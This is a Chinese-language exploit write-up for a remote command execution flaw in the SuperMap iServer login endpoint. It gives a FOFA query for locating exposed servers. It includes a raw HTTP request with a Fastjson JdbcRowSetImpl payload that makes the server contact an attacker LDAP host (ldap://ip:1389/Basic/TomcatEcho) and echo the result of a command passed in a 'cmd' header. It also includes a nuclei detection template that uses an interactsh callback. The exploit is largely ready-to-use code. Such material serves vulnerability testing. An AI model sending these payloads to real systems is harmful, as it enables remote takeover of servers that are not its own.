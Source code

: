 # 一、漏洞简介
SuperMap iServer 是基于跨平台 GIS 内核的云 GIS 应用服务器产品，该产品通过服务的方式，面向网络客户端提供与专业 GIS 桌面产品相同功能的 GIS 服务；能够管理、发布和无缝聚合多源服务，包括 REST 服务、OGC 服务（WMS、WMTS、WFS、WCS、WPS、CSW）等；支持多种类型客户端访问；支持分布式环境下的数据管理、编辑和分析等 GIS 功能；提供从客户端到服务器端的多层次扩展的面向服务 GIS 的开发框架。SuperMap iServer login存在远程命令执行漏洞

# 二、影响版本
+ SuperMap iServer

# 三、资产测绘
+ fofa`app="SuperMap-iServer"`
+ 特征

![](images/1724913609431-e4a43ee6-7193-4a30-8ac3-73c830e751da.png)

# 四、漏洞复现
启用jnid服务

![](images/1724913671831-b93303a7-426b-4724-90df-ace4f8eaf37b.png)

```java
POST /iserver/services/security/login.json?_t=1655187360048 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
Connection: close
Accept-Encoding: gzip, deflate
cmd: whoami
Content-Type: application/json
Content-Length: 244

{
"rasdnd1": {
    "@type": "java.lang.Class", 
    "val": "com.sun.rowset.JdbcRowSetImpl"
}, 
"randfd2": {
    "@type": "com.sun.rowset.JdbcRowSetImpl", 
    "dataSourceName": "ldap://ip:1389/Basic/TomcatEcho", 
    "autoCommit": true
}
}
```

![](images/1724913648224-34c72aaa-e354-47d4-a1e8-b947ed8aae75.png)

```java
id: msk-template

info:
  name: SuperMap iServer login远程命令执行
  author: xiaokp7
  severity: high



http:
  - raw:
      - |
        POST /iserver/services/security/login.json?_t=1655187360048 HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
        Connection: close
        Accept-Encoding: gzip, deflate
        Content-Type: application/json

        {
        "rasdnd1": {
            "@type": "java.lang.Class", 
            "val": "com.sun.rowset.JdbcRowSetImpl"
        }, 
        "randfd2": {
            "@type": "com.sun.rowset.JdbcRowSetImpl", 
            "dataSourceName": "ldap://{{interactsh-url}}", 
            "autoCommit": true
        }
        }

    matchers:
      - type: word
        part: interactsh_protocol # Confirms the DNS Interaction
        words:
          - "dns"
```

